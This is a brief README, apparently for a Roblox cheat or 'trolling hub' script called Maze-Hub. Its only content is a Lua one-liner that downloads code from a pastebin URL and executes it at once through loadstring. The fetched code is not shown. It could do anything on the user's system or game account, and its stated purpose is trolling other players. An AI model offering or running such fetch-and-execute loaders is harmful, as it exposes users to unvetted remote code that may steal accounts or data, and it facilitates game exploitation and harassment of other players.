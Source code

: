 # Maze-Hub
my first the maze and trolling hub
i hope you have fun
script:
```lua
loadstring(game:HttpGet("https://pastebin.com/raw/Dcqf2zQ1"))()
```
